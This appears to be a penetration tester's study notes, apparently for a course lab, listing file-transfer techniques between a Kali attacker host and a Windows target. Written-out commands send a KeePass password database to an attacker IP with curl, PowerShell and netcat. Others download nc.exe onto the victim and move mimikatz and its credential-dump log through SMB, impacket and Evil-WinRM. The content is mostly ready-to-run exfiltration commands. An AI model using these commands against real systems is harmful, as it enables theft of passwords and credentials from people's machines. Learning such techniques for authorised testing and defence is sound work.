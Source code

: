 public:: true

- Python [uploadserver](https://pypi.org/project/uploadserver/)
	- On Kali
	  ```bash
	  python3 -m uploadserver 8080
	  ```
	- On Windows
		- #+BEGIN_IMPORTANT
		  You need the real `curl`. On PowerShell `curl` is an alias for `Invoke-WebRequest` and because of that it is not suitable for this use-case.
		  #+END_IMPORTANT
			- Example of using `curl` as an alias for `Invoke-WebRequest`
			  ```powershell
			  PS C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" 192.168.45.229:8080/upload
			  Invoke-WebRequest : A parameter cannot be found that matches parameter name 'X'.
			  ```
		- If the real `curl` is installed then switch to a `cmd` prompt.
		  ```cmd
		  C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" http://192.168.45.229:8080/upload
		  ```
		- If `curl` is not an option, then you can use [`PSUpload.ps1`](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1) from a Powershell prompt.
		  ```powershell
		  PS C:\users\bobby> Import-Module .\PSUpload.ps1
		  PS C:\users\bobby> Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  
		  [+] File Uploaded:  C:\Users\bobby\Database.kdbx
		  [+] FileHash:  6DF711DF31EAC725FA31235C2437E678
		  
		  ```
- Netcat
	- On Kali
	  ```bash
	  nc -lnvp 443 > bobby.kdbx
	  ```
	- On Windows
		- Upload netcat
		  ```powershell
		  curl 192.168.45.229/nc.exe -o nc.exe
		  ```
		- Exfiltrate data via netcat
		  ```powershell
		  cat C:\users\bobby\Database.kdbx | .\nc.exe 192.168.45.229 443
		  ```
- SMB
	- On Kali
	  ```bash
	  impacket-smbserver test . -smb2support  -username user -password pass
	  ```
	- On Windows
	  ```cmd
	  net use m: \\192.168.45.229\test /user:user pass
	  copy mimikatz.log m:\
	  ```
- [[impacket-psexec]]
	- It comes with built in upload (lput) and download (lget) commands.
	- By default files are uploaded/downloaded from the `C:\Windows` folder.
	- Upload
	  ```cmd
	  C:\Windows\system32> lput mimikatz.exe
	  [*] Uploading mimikatz.exe to ADMIN$\/
	  C:\Windows\system32> cd C:\windows
	  C:\Windows> dir /b mimikatz.exe
	  mimikatz.exe
	  ```
	- Download
	  ```cmd
	  C:\Windows> lget mimikatz.log
	  [*] Downloading ADMIN$\mimikatz.log
	  ```
- [[impacket-wmiexec]]
	- It comes with built in upload (lput) and download (lget) commands.
	- By default files are uploaded/downloaded in/from the `C:\Windows` folder.
	- Upload
	  ```cmd
	  C:\Windows\system32> lput mimikatz.exe
	  [*] Uploading mimikatz.exe to ADMIN$\/
	  C:\Windows\system32> cd C:\windows
	  C:\Windows> dir /b mimikatz.exe
	  mimikatz.exe
	  ```
	- Download
	  ```cmd
	  C:\Windows> lget mimikatz.log
	  [*] Downloading ADMIN$\mimikatz.log
	  ```
- [[Evil-WinRM]]
	- It comes with built in `upload` and `download` commands.
	- Upload
	  ```powershell
	  upload mimikatz.exe C:\windows\tasks\mimikatz.exe
	  ```
	- Download
	  ```powershell
	  download mimikatz.log /home/kali/Documents/pen-200
	  ```
- FTP
	- Binaries in ASCII mode will make the file not executable. Set the mode to binary.